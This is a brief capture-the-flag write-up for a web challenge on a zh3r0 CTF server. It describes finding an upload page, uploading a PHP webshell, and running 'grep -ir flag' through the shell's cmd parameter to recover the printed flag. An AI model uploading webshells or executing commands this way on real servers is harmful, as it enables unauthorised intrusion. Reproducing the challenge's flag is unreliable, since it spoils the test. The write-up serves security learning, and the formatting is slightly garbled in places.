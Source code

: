 # Google Source Code

Comment says `get the page`

`/?page=flag` gives us a link to a trailer for `upload`

`/?page=uploa`d gives us a link to upload a file

Upload a webshell:

\`[http://web.zh3r0.ml:7777/?page=easy-simple-php-webshell&cmd=grep -ir flag \`\`](http://web.zh3r0.ml:7777/?page=easy-simple-php-webshell&cmd=grep%20-ir%20flag%20``)

## zh3r0{h3y\_d1d\_y0u\_upl04d\_php\_c0rr3ct1y???\_84651320}

